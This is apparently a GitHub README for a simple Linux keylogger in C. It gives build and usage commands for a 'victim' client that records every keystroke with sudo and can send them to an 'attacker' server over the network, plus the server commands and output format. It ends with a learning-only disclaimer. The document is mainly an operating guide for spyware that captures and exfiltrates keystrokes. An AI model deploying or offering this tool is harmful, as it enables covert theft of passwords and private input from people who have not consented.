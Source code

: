 This project is inspired by https://github.com/SCOTPAUL/keylog  

# keylog

A simple keylogger for Linux written in C. The current version will attempt to detect your keyboard event file automatically. 

## Usage

### Client (Victim)

#### File

```bash
cd keylogger_connectback/
sudo ./keylog -f file-to-write-to.txt
```

This will log all keystrokes to the specified file while the program is running.

#### Network

```bash
cd keylogger_connectback/
sudo ./keylog -n hostname
```

This will send all keystrokes to the server running on `hostname`.

### Server (Attacker)
You can disconnect the keylogger from the server side using Ctrl-C and terminate the server using Ctrl-*, where * is any character besides 'C'.

#### stdout

```bash
cd keylogger_connectback/
./server
```

This will write all keystrokes received from the client to stdout.

#### File

```bash
cd keylogger_connectback/
./server -f file-to-write-to.txt
```

This will write all keystrokes received from the client to the specified file.

## Output Format

Each key press will cause a string representing that key to be written to the
chosen location, followed by a newline. When the program quits, an extra newline will be added.

#### Example

Typing `hello world` and then quitting the program with `Ctrl-C' will cause the chosen location to contain the following.

```
H
E
L
L
O
SPACE
W
O
R
L
D
LEFTCTRL
C
```

## Building

```bash
cd keylogger_connectback/
make
```

# Disclaimer

This code was created entirely out of an interest in learning about linux keyboard events. It should never be used on any machine where you are not authorised to log keystrokes.

